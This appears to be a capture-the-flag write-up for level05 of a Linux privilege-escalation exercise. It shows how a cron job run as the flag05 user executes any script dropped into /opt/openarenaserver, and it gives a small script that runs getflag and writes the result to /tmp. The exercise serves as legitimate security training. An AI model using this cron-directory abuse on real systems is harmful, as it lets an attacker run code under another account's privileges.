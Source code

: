 When we logged as level05, we get a message **You have new mail.**
Hopefully, in precedent level we have found an environment variable **MAIL=/var/mail/level05**

This level05 file seems to be a crontab-like, execute a script each 2 minutes:
```bash
~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
the script:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

```

This script take all file in */opt/openarenaserver* and execute it in a sub bash. We to put our script in this directory:

```bash
#!/bin/bash

getflag > /tmp/flag.txt
```

redirection in tmp is essential because the script will be executed in a subshell so if you just use getflag, it will print the result in the subshell and we can't see it.
